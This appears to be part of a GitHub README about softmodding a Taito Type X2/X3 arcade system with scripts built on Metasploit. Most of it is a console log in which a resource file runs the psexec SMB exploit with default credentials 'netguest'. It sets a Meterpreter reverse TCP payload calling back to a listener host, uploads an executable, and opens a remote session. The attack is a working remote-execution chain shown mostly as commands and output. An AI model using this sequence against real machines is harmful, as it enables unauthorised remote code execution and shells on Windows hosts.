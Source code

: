 # Final Boss:
- Wrapping it all up with a ./ style interface. 

If you've made it this far you should not need anyone holding your hand... assuming you just want a shell, move or delete the *.meter files. 

```
$ mv SFIV.meter SFIV.meter.orig 
$ mv l4dac.meter l4dac.meter.orig
```

Otherwise, leave them in place and let them help create your softmodded X2 or X3. 

**WARNING** DO NOT USE THESE SCRIPTS UNTIL YOU HAVE THE APPROPRIATE .EXE FILES IN PLACE! **WARNING**

```
$ ./softmod-sfiv.sh 
FuckADarkSoft!
[-] ***rting the Metasploit Framework console...\
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v5.0.35-dev-c0f8e7cea6               ]
+ -- --=[ 1903 exploits - 1072 auxiliary - 329 post       ]
+ -- --=[ 550 payloads - 44 encoders - 10 nops            ]
+ -- --=[ 2 evasion                                       ]

[*] Processing ./SFIV.rc for ERB directives.
resource (./SFIV.rc)> use exploit/windows/smb/psexec
resource (./SFIV.rc)> set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
resource (./SFIV.rc)> set SHARE C$
SHARE => C$
resource (./SFIV.rc)> set LHOST 192.168.69.64
LHOST => 192.168.69.64
resource (./SFIV.rc)> set LPORT 1234
LPORT => 1234
resource (./SFIV.rc)> set RHOSTS 192.168.69.112
RHOSTS => 192.168.69.112
resource (./SFIV.rc)> set SMBUser netguest
SMBUser => netguest
resource (./SFIV.rc)> set SMBPass netguest
SMBPass => netguest
resource (./SFIV.rc)> set AutoRunScript multi_console_command -r ./SFIV.meter
AutoRunScript => multi_console_command -r ./SFIV.meter
resource (./SFIV.rc)> exploit
[*] Started reverse TCP handler on 192.168.69.64:1234 
[*] 192.168.69.112:445 - Connecting to the server...
[*] 192.168.69.112:445 - Authenticating to 192.168.69.112:445 as user 'netguest'...
[*] 192.168.69.112:445 - Selecting native target
[*] 192.168.69.112:445 - Uploading payload... yKtyUORi.exe
[*] 192.168.69.112:445 - Created \yKtyUORi.exe...
[+] 192.168.69.112:445 - Service started successfully...
[*] 192.168.69.112:445 - Deleting \yKtyUORi.exe...
[*] Sending stage (179779 bytes) to 192.168.69.112
[*] Meterpreter session 1 opened (192.168.69.64:1234 -> 192.168.69.112:1029) at 2019-08-02 02:45:50 -0400
```